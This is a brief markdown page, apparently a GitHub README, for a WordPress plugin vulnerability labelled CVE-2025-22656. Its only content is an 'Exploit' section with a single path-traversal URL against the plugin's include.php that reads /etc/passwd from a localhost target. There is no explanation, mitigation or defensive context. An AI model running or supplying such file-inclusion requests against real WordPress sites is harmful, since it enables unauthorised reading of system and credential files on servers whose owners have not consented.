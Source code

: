 # Cookie Monster Plugin (WordPress) [CVE-2025-22656]

## Exploit

- [x] `http://localhost:8080/wp-content/plugins/cookie-monster/include.php?file=../../../../../../etc/passwd`
